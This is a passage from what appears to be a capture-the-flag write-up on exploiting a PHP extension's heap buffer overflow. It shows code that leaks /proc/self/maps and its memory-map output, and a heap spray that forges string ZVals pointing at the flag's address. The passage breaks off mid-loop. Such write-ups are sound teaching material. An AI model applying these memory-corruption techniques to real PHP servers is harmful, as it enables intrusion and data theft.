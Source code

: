 ## Stage 2: Exploiting a PHP heap buffer overflow with large buffers

One thing to note is that we can also read `/proc/self/maps`, so we know where
the flag is located. Plus, with the `/proc/self/maps` leak, it is easy to allocate
a buffer whose (approximate) location we know:

{% highlight php %}
$payload = str_repeat('a', 1<<26);
echo file_get_contents('/proc/self/maps');
{% endhighlight %}

Output:

    565e4000-5666f000 r-xp 00000000 08:01 401642                             /usr/sbin/apache2
    5666f000-56671000 r--p 0008b000 08:01 401642                             /usr/sbin/apache2
    56671000-56673000 rw-p 0008d000 08:01 401642                             /usr/sbin/apache2
    56673000-56676000 rw-p 00000000 00:00 0
    58133000-58170000 rw-p 00000000 00:00 0                                  [heap]
    58170000-582dc000 rw-p 00000000 00:00 0                                  [heap]
    582dc000-58304000 rw-p 00000000 00:00 0                                  [heap]
    f1b09000-f5b4a000 rw-p 00000000 00:00 0   <- this block was not there before
    f5b4a000-f639b000 r-xp 00000000 08:01 531683                             /usr/lib/apache2/modules/libphp5.so
    f639b000-f63fc000 r--p 00850000 08:01 531683                             /usr/lib/apache2/modules/libphp5.so
    ...
    f73a7000-f73a8000 r-xp 00000000 08:01 271437                             /usr/lib/apache2/modules/mod_flag.so
    f73a8000-f73a9000 r--p 00000000 08:01 271437                             /usr/lib/apache2/modules/mod_flag.so
    f73a9000-f73aa000 rw-p 00001000 08:01 271437                             /usr/lib/apache2/modules/mod_flag.so
    f73aa000-f73ac000 rw-p 00000000 00:00 0

So we know that our block is allocated in the region starting at 0xf1b09000,
and we know the flag 2 is at 0xf73a7000 + 0x2080 (the offset can be found with
a disassembler). Our idea now is to fake a string
[ZVal](http://php.net/manual/en/internals2.variables.intro.php) inside the big
`$payload` string. Later we will exploit the extension module by overwriting a heap
buffer to point to that ZVal, in a way that we can read it after. Because we
didn't want to fix offsets all the time, we did a proper heap spray:

{% highlight php %}
for ($i = 0; $i < (1<<26); $i += 0x1000) {
  // value.str.val = address of flag2
  $payload[$i] = "\x80";
  $payload[$i+1] = "\x90";
  $payload[$i+2] = "\x3a";
  $payload[$i+3] = "\xf7";

  // value.str.len
  $payload[$i+4] = "\x40";
  $payload[$i+5] = "\0";
  $payload[$i+6] = "\0";
  $payload[$i+7] = "\0";

  // refcount__gc
  $payload[$i+8] = "\1";
  $payload[$i+9] = "\0";
  $payload[$i+10] = "\0";
  $payload[$i+11] = "\0";

  // type
  $payload[$i+12] = "\x06";
  // reference flag